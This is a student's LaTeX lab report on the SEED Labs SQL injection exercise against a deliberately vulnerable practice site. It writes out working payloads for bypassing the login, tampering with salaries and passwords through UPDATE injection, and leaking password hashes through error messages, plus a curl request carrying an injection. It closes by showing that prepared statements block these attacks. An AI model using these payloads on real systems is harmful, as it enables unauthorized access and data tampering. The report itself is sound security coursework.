\documentclass[12pt,reqno]{amsart}

\usepackage{amsthm,amsmath,amssymb}
\usepackage{mathtools}
\usepackage{proof}
\usepackage{centernot}
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage[T1]{fontenc}
\usepackage{courier}
\usepackage{enumitem}
\usepackage{hyperref}
\usepackage{array}
\usepackage{multirow}
\usepackage{algorithmic}
\usepackage{textcomp}
\usepackage{algorithm}
\usepackage{cite}
\usepackage{listings}
\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}

\lstdefinestyle{CStyle}{
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily\tiny,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}
\lstdefinestyle{PythonStyle}{
    commentstyle=\color{mGreen},
    keywordstyle=\color{blue},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{orange},
    basicstyle=\ttfamily\tiny,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=Python
}
\lstdefinestyle{SQLStyle}{
    commentstyle=\color{mGreen},
    keywordstyle=\color{blue},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{orange},
    basicstyle=\ttfamily\tiny,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=SQL
}


\definecolor{mySucces}{RGB}{40, 167, 69}
\definecolor{myFail}{RGB}{220, 53, 69}

\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\st}[0]{\text{ s.t. }}
\newcommand{\where}[0]{\text{ where }}
\newcommand{\mand}[0]{\text{ and }}
\newcommand{\msgspc}[0]{\mathcal{M}}
\newcommand{\cphspc}[0]{\mathcal{C}}
\newcommand{\keyspc}[0]{\mathcal{K}}
\newcommand{\advrs}[0]{\mathcal{A}}
\newcommand{\distin}[0]{\mathcal{D}}
\newcommand{\oracle}[0]{\mathcal{O}}
\newcommand{\correctans}[0]{\colorbox{mySucces}{CORRECT}}
\newcommand{\falseans}[0]{\colorbox{myFail}{FALSE}}
\newcommand\MyBox[2]{
  \fbox{\lower0.75cm
    \vbox to 1.7cm{\vfil
      \hbox to 1.7cm{\hfil\parbox{1.4cm}{#1\\#2}\hfil}
      \vfil}%
  }%
}
\graphicspath{ {./} }
\newtheorem{theorem}{Theorem}[section]
\newtheorem{axiom}[theorem]{Axiom}
\newtheorem{case}[theorem]{Case}
\newtheorem{claim}[theorem]{Claim}
\newtheorem{conclusion}[theorem]{Conclusion}
\newtheorem{condition}[theorem]{Condition}
\newtheorem{conjecture}[theorem]{Conjecture}
\newtheorem{corollary}[theorem]{Corollary}
\newtheorem{criterion}[theorem]{Criterion}
\newtheorem{definition}[theorem]{Definition}
\newtheorem{example}[theorem]{Example}
\newtheorem{exercise}[theorem]{Exercise}
\newtheorem{lemma}[theorem]{Lemma}
\newtheorem{notation}[theorem]{Notation}
\newtheorem{problem}[theorem]{Problem}
\newtheorem{proposition}[theorem]{Proposition}
\newtheorem{remark}[theorem]{Remark}
\newtheorem{solution}[theorem]{Solution}
\newtheorem{summary}[theorem]{Summary}    

\begin{document}

\begin{center}
  \large\textbf{SQL Injection} \\
\end{center}

\begin{center}
  \line(1,0){250}
\end{center}

This report includes several screenshots and codes regarding the SQL Injection project. The project uses SeedLab's Ubuntu 16.04 VM. We will have several sections:
\begin{enumerate} 
  \item Setup \& First SQL Query
  \item Injection on \code{SELECT}
  \item Injection on \code{UPDATE}
  \item Defending with Prepared Statements
\end{enumerate}

\section{Setup \& First SQL Query}

From the command line using \code{mysql} we can look at the data of employee with name Alice, shown in figure \ref{fig:1}.
\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/SQL_Alice_Query.png}
  \caption{Retrieving Alice's data with SQL.}
  \label{fig:1}
\end{figure}

The target website is accessible at \code{www.SEEDLabSQLInjection.com}, which is also found in the bookmarks of Mozilla Firefox within the system. The access via this URL is possible thanks to \code{/etc/hosts} file.

\section{Injection on \code{SELECT}}
First, by using the notorious ``\code{' OR 1=1 -{}- }'' injection we see that the systems logs us in as Alice (figure \ref{fig:2}). Notice that we bypass the WHERE clause without providing a name, but instead the or condition with a truth value causes the overall condition to evaluate to true.

\begin{figure}[h]
  
\includegraphics[width=0.35\linewidth]{img/SQL_ALICE_INJECT.png}
  \caption{Injection with \code{' OR 1=1 -{}- }}
  \label{fig:2}
\end{figure}

After noticing this vulnerability, it is tempting to try and guess the administrators name, which is more often than not \code{admin}. So I tried a second injection, which logged me in as Admin user (figure \ref{fig:3}).

\begin{figure}[h]
  
\includegraphics[width=0.7\linewidth]{img/SQL_ADMIN_INJECT.png}
  \caption{Injection with \code{admin'  AND 1=1 -{}- }. Just \code{admin'} also works fine, so the rest is redundant.}
  \label{fig:3}
\end{figure}

We can also do this injection in figure \ref{fig:3} via \code{curl}, with respect to the URL encoding of course, shown in figure \ref{fig:4}.

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/CURL_EXAMPLE_CMD.png}
  \caption{Injection at figure \ref{fig:3} via \code{curl}. The result is written to a file called \code{curlexample.html}.}
  \label{fig:4}
\end{figure}


The result of the \code{curl} is written into an HTML file called \code{curlexample.html}, and if we look inside it we can see the content as it appears on browser, shown in figure \ref{fig:5}.

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/CURL_EXAMPLE_GEDIT.png}
  \caption{Table contents in \code{curlexample.html} from figure \ref{fig:4}. We can see the credentials of employees.}
  \label{fig:5}
\end{figure}

For the last subtask of executing multiple queries via this attack vector, I had attempted several queries that seemed to work from command line but not from the injection. The reason behind this is that the backend code uses PHP's \code{mysqli::query()} function. Here is an excerpt from PHP's manual \footnote{https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php}: 

\textit{The API functions \code{mysqli::query()} and \code{mysqli::real\_query()} do not set a connection flag necessary for activating multi queries in the server. An extra API call is used for multiple statements to reduce the damage of accidental SQL injection attacks. An attacker may try to add statements such as \code{; DROP DATABASE mysql} or \code{; SELECT SLEEP(999)}. If the attacker succeeds in adding SQL to the statement string but \code{mysqli::multi\_query()} is not used, the server will not execute the injected and malicious SQL statement.}

As described, this function is instructed to not execute multiple queries, with SQL injection in mind! Therefore, we are unable to execute multiple queries via this injection, however it may still be possible to do UNION attacks which are done on top of the SELECT query that we are injecting.

To recap the injections in this section, we present listing \ref{lst:1}.
\begin{figure}[h]
  \begin{lstlisting}[style=SQLStyle, firstnumber=1]
SELECT id, name, eid, salary, birth, ssn, address, 
	email, nickname, Password
FROM credential
WHERE 
	name= '$input_uname' /* this field is the injection spot */
	AND Password='$hashed_pwd';

/* Injections for Task 2.1
' OR 1=1 -- 
admin'  AND 1=1 --        (AND 1=1 is redundant)
*/

/* CURL Command for Task 2.2
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27+and+1%3D1+--+&Password='
*/

\end{lstlisting}
  \caption{Instructions related to section 1.}
  \label{lst:1}
\end{figure}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newpage
\section{Injection on \code{UPDATE}}
The vulnerability within ``Edit Profile'' page gives us direct access to the SET clause parameters of the UPDATE clause. By injecting into the nickname field the following ``\code{hi', salary='100001}'' we can change our nickname to \textbf{hi} while also increasing our salary to 100001, which is higher than the admin! Notice that we do not have another apostrophe after salary, because that is provided in the code, otherwise we would introduce a syntax error.

We can further utilize this injection to change other employees' credentials. By injecting ``\code{boom', salary='1' WHERE name='Boby' -{}- }'' we set Boby's salary to 1, and change is nickname to leave a message for him to see when he looks at his nickname. The results of these two injections are shown in figure \ref{fig:6}.

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/SQL_UPDATE_1-2.png}
  \caption{Alice's salary increased, Boby's salary decreased.}
  \label{fig:6}
\end{figure}

We can further make life harder for Boby by changing his password. However, it is a general practice to use hashing for password storage, so a direct SET clause targeting a password will not work during authentication, the value given to the password must be hashed. Though in this assignment we know SHA1 was used, we can also further use another exploit in the website that allows us to get the hashed password without the knowledge about algorithm.

It is in attackers favor to give detailed error messages to the client, and we have one such case here. During the previous injections, it is noticed that when there is a syntax error the server actually reports the error message back to the client. 

In figure \ref{fig:7} we show how this could be exploited to obtain the hash value of an input of our choice. We inject \code{` OR OR -{}- } from the username field, and the consecutive OR's cause a syntax error. However, the password input is hashed and used in the constructed query before this error occurs, allowing us to see it in the error message.

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/SQL_BOBPASS_1.png}
  \caption{The hash of the password field is obtained from within the error message. Notice how the password parameter in the URL is \code{helo} and the error message has its hash.}
  \label{fig:7}
\end{figure}

Now that we have obtained the hashed value, we can conduct the UPDATE injection from before to set Boby's password to one of our choice, in this case \code{helo}. The result is shown in figure \ref{fig:8}.

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/SQL_BOBPASS_2.png}
  \caption{Boby's password is updated. Notice the hash value of Boby.}
  \label{fig:8}
\end{figure}

We can then login to Boby's account with this password easily, shown in figure \ref{fig:9}.

\begin{figure}[h]
  
\includegraphics[width=0.35\linewidth]{img/SQL_BOBPASS_3.png}
  \caption{Accessing Boby's account via the injected password. Notice the query parameters in the URL, which gives \code{helo} as the password.}
  \label{fig:9}
\end{figure}

To recap the injections provided in this section, we present listing \ref{lst:2}.
\begin{figure}[h]
  \begin{lstlisting}[style=SQLStyle, firstnumber=1]
UPDATE credential 
SET
	/* any of these fields can be used for injection */
	nickname='$input_nickname', /* I have used this one in my examples */
	email='$input_email',
	address='$input_address',
	Password='$hashed_pwd',
	PhoneNumber='$input_phonenumber'
WHERE ID=$id;

/* Injection for Task 3.1
hi', salary='100001
*/

/* Injection for Task 3.2
boom', salary='1' WHERE name='Boby' --  
*/

/* Injections for Task 3.3
 ` OR OR --         (to cause syntax error)
boom', Password='c6efaf27673db4f7d2de52c0ab20a0655112cbad' 
	WHERE name='Boby' -- 
*/
\end{lstlisting}
  \caption{Instructions related to section 2.}
  \label{lst:2}
\end{figure}

\newpage
\section{Defending with Prepared Statements}
The provided laboratory included \code{safe\_home.php}, which implements the prepared statement defence in the home page. It also has \code{safe\_edit\_backend.php} which is a safe target for the edit profile HTML form. By modifying the frontend codes \code{index.html} and \code{unsafe\_edit\_frontend.php} files, we can change them to use the safe codes instead. Note that for these edits to take place we restart the Apache server.

First we try the injection to bypass the login screen, shown in figure \ref{fig:aa}.

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/SQL_SAFE_LOGIN.png}
  \caption{Attempting the injection from figure \ref{fig:2}, notice the injection on query parameters. It does not work, and instead we get ``Account does not exist'' message.}
  \label{fig:aa}
\end{figure}


As expected, prepared statements prevent the injection from happening, and we are unable to bypass the login screen. Furthermore, using the same \code{curl} command from the task before,  we can make a request to \code{safe\_home.php} with the same injection query parameters as in figure \ref{fig:4}. In figure \ref{fig:10} we can see the command in action, and in figure \ref{fig:11} we can see the resulting HTML. 

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/SAFE_CURL_EXAMPLE_CMD.png}
  \caption{SELECT Injection attempt on safe PHP code. The result is written to a file called \code{curlsafe.html}.}
  \label{fig:10}
\end{figure}


\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/SAFE_CURL_EXAMPLE_GEDIT.png}
  \caption{The body of \code{curlsafe.html} from figure \ref{fig:10}. Notice how unlike the result in figure \ref{fig:5}, we do not see the employee credentials, but instead we see the ``Author does not exist'' message.}
  \label{fig:11}
\end{figure}

We can also try and see if our injections from the profile editing page still work against the safe PHP code with prepared statements. We logged in to Alice's account, and have tried to inject \code{hi2', salary='111111} to change her salary and also nickname. When we submit this form to \code{safe\_edit\_backend.php}, injection does not work, however the injection point is affected, in this case the nickname, as shown in figure \ref{fig:12}.

\begin{figure}[h]
  
\includegraphics[width=0.35\linewidth]{img/SQL_INJECT_ALICE_SAFE.png}
  \caption{Instead of the injected code being executed, it is treated as a string data, and the UPDATE happens as intended, changing the nickname to the provided user input.}
  \label{fig:12}
\end{figure}



\end{document}